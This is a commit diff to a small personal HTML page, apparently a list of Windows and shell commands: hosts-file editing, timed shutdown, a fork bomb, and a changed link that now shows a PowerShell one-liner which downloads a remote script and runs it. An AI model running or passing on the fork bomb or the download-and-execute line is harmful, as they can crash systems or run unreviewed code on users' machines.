

Before and after one commit to DrunkenLyricist/imp, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-925 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -28,6 +28,6 @@ body {
    <p style="color:white;"> notepad C:\Windows\System32\drivers\etc\hosts</p>
    <p style="color:white;">shutdown -s -t 120</p>
    <p style="color:white;">shutdown -a (to cancel)</p>
-   <a href="https://github.com/DrunkenLyricist/nanny/releases/download/ship/ship.ps1" target="_blank"; style="color: white;">SHIP</a>
+   <a href="https://github.com/DrunkenLyricist/nanny/releases/download/ship/ship.ps1" target="_blank"; style="color: white;">iex -useb https://raw.githubusercontent.com/DrunkenLyricist/nanny/main/ship.ps1 | iex</a>
    <p style="color:white;">:(){ :|:& };:</p>
 </html>
```
